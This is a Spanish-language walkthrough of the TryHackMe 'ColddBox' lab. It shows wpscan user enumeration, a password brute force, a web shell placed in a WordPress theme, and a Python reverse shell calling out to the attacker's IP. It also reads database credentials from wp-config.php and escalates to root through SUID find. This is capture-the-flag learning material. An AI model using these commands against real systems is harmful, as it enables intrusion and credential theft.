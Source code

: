 ```yaml
---
layout: single
title: Writeup THM - Maquina Colddbox
comments: true
excerpt: "ColddBox es una maquina de TryHackMe de nivel Easy, es una buena maquina para reforzar conocimientos. Empezaremos enumerando y encontramos una pagina hecha en wordpress, con wpscan podremos encontrar usuarios y realizar fuerza bruta, accedemos al panel de control de wordpress con credenciales que encontramos en nuestro anterior ataque de fuerza bruta. Editaremos un theme de wordpress para generar una reverse shell y somos un usuario www-data, pero rapidamente encontramos credenciales del user c0ldd en el archivo wp-config.php y por ultimo logramos ser root abusando de un binario find con permisos SUID."
date: 2022-01-27
classes: wide
header:
  teaser: /assets/images/2022-01-27-writeup-thm-colddbox/Untitled.png
  teaser_home_page: true
categories:
  - TryHackMe
tags:
  - OSCP  
  - Hacking
  - easy
---
```


# ColddBox

![Untitled](/assets/images/2022-01-27-writeup-thm-colddbox/Untitled.png)

## Resumen:

ColddBox es una maquina de TryHackMe de nivel Easy, es una buena maquina para reforzar conocimientos. Empezaremos enumerando y encontramos una pagina hecha en wordpress, con wpscan podremos encontrar usuarios y realizar fuerza bruta, accedemos al panel de control de wordpress con credenciales que encontramos en nuestro anterior ataque de fuerza bruta. Editaremos un theme de wordpress para generar una reverse shell y somos un usuario www-data, pero rapidamente encontramos credenciales del user c0ldd en el archivo wp-config.php y por ultimo logramos ser root abusando de un binario find con permisos SUID.

## Scan Nmap
<p align="center">
<img src="/assets/images/2022-01-27-writeup-thm-colddbox/Untitled%201.png">
</p>

## Port 80 - Wordpress

```bash
ColddBox ❯ wpscan --url 10.10.202.208 --enumerate u
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.17
                               
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[snip]

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:04 <============================================================================================> (10 / 10) 100.00% Time: 00:00:04

[i] User(s) Identified:

[+] the cold in person
 | Found By: Rss Generator (Passive Detection)

[+] c0ldd
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] hugo
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] philip
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Thu Jan 27 21:10:40 2022
[+] Requests Done: 75
[+] Cached Requests: 6
[+] Data Sent: 17.239 KB
[+] Data Received: 17.997 MB
[+] Memory used: 186.215 MB
[+] Elapsed time: 00:02:42
```

usuarios encontrados

```bash
c0ldd
hugo
philip
```

haremos fuerza bruta con wpscan al usuario C0ldd

```bash
ColddBox ❯ wpscan --url http://10.10.202.208 --usernames c0ldd --passwords /usr/share/wordlists/rockyou.txt -t 50
```

![Untitled](/assets/images/2022-01-27-writeup-thm-colddbox/Untitled%202.png)

![Untitled](/assets/images/2022-01-27-writeup-thm-colddbox/Untitled%203.png)

genial pudimos encontrar credenciales con nuestro ataque de fuerza bruta

```bash
c0ldd:9876543210
```

accdemos al panel de control de wordpress con dichas credenciales

![Untitled](/assets/images/2022-01-27-writeup-thm-colddbox/Untitled%204.png)

iremos a la session Apperance → Editor, modificaremos el archivo 404.php para crear nuestra web shell

![Untitled](/assets/images/2022-01-27-writeup-thm-colddbox/Untitled%205.png)

accderemos a nuestra reverse en la siguiente ruta

```bash
http://10.10.202.208/wp-content/themes/twentyfifteen/404.php?cmd=whoami
```

![Untitled](/assets/images/2022-01-27-writeup-thm-colddbox/Untitled%206.png)

ahora nos toca crear una reverse shell para ello dejaremos en escucha el puerto 443 en escucha

![Untitled](/assets/images/2022-01-27-writeup-thm-colddbox/Untitled%207.png)

generaremos una reverse shell de la siguiente manera

```bash
http://10.10.202.208/wp-content/themes/twentyfifteen/404.php?cmd=python3%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.9.132.249%22,443));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import%20pty;%20pty.spawn(%22bash%22)%27
```

y logramos conectarnos  y ejecutar comandos en la maquina victima

![Untitled](/assets/images/2022-01-27-writeup-thm-colddbox/Untitled%208.png)

## User c0ldd

en el archivo de configuracion de wp-config.php logramos encontrar credenciales del user c0ldd

```bash
www-data@ColddBox-Easy:/var/www/html/wp-content/themes/twentyfifteen$ cat /var/www/html/wp-config.php
<?php
/**
 * The base configurations of the WordPress.
 *
 * This file has the following configurations: MySQL settings, Table Prefix,
 * Secret Keys, and ABSPATH. You can find more information by visiting
 * {@link http://codex.wordpress.org/Editing_wp-config.php Editing wp-config.php}
 * Codex page. You can get the MySQL settings from your web host.
 *
 * This file is used by the wp-config.php creation script during the
 * installation. You don't have to use the web site, you can just copy this file
 * to "wp-config.php" and fill in the values.
 *
 * @package WordPress
 */

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'colddbox');

/** MySQL database username */
define('DB_USER', 'c0ldd');

/** MySQL database password */
define('DB_PASSWORD', 'cybersecurity');

/** MySQL hostname */
define('DB_HOST', 'localhost');

[snip]
```

credenciales encontradas 

```bash
c0ldd:cybersecurity
```

asi que accedemos con dichas credenciales

![Untitled](/assets/images/2022-01-27-writeup-thm-colddbox/Untitled%209.png)

![Untitled](/assets/images/2022-01-27-writeup-thm-colddbox/Untitled%2010.png)

## Escalacion de privilegios - User Root

para poder escalar privilegios buscaremos si tenemos un binario con permisos de SUID para lograr ser root

```bash
c0ldd@ColddBox-Easy:/home$ find / -type f -perm -u=s 2>/dev/null
/bin/su
/bin/ping6
/bin/ping
/bin/fusermount
/bin/umount
/bin/mount
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/pkexec
/usr/bin/find
/usr/bin/sudo
/usr/bin/newgidmap
/usr/bin/newgrp
/usr/bin/at
/usr/bin/newuidmap
/usr/bin/chfn
/usr/bin/passwd
/usr/lib/openssh/ssh-keysign
/usr/lib/snapd/snap-confine
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

y explotamos dicho binario find con permisos de SUID 

```bash
find . -exec /bin/sh -p \; -quit
```

![Untitled](/assets/images/2022-01-27-writeup-thm-colddbox/Untitled%2011.png)

Muchas gracias por tomarte tu tiempo en leer, nos vemos.